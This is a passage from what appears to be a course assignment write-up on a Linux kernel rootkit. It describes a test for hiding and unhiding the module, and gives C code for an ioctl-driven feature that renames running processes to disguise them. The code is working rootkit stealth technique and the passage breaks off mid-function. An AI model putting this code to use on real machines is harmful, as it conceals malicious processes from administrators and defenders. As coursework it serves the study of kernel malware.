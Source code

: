 ### Test

In `test.sh`:
1.	Verify that the module is visible.
2.	Call `toggle_module_visibility` to change the module’s visibility.
3.	Verify that the module is now hidden.
4.	Call `toggle_module_visibility` again.
5.	Verify that the module becomes visible again.

## Masquerade Process Name (30%)

### Idea

We iterate over all processes using the `for_each_process()` macro, modifying the `comm` field of the target process based on the given request.

### Implementation

Since we need to allow userspace to pass a pointer to the kernel space, we modify `rootkit.h` such that `IOCTL_MOD_MASQ` uses `_IOW` to accept a `struct masq_proc_req *` parameter:

```c
#define IOCTL_MOD_MASQ _IOW(MAGIC, 1, struct masq_proc_req)
```

Next, we copy data from the user space pointer to kernel space and modify the process name accordingly.

```c
static void masquerade_proc(struct masq_proc *proc) {
    struct task_struct *task;
    char *new_name = proc->new_name;
    char *orig_name = proc->orig_name;

    // new name must be shorter than original name
    if (strnlen(new_name, MASQ_LEN) >= strnlen(orig_name, MASQ_LEN)) {
        return;
    }

    // iterate over all processes and masquerade name if possible
    for_each_process(task) {
        if (strcmp(task->comm, orig_name) == 0) {
            strcpy(task->comm, new_name);
        }
    }
}

static long rootkit_ioctl(struct file *filp, unsigned int ioctl, unsigned long arg) {
    switch (ioctl) {
    case IOCTL_MOD_MASQ:
        struct masq_proc_req req;
        struct masq_proc *procs;

        // copy request from user space
        if (copy_from_user(&req, (void *)arg, sizeof(req))) {
            ret = -EFAULT;
            break;
        }

        // allocate memory for procs
        procs = kmalloc(req.len * sizeof(struct masq_proc), GFP_KERNEL);
        if (!procs) {
            ret = -ENOMEM;
            break;
        }
```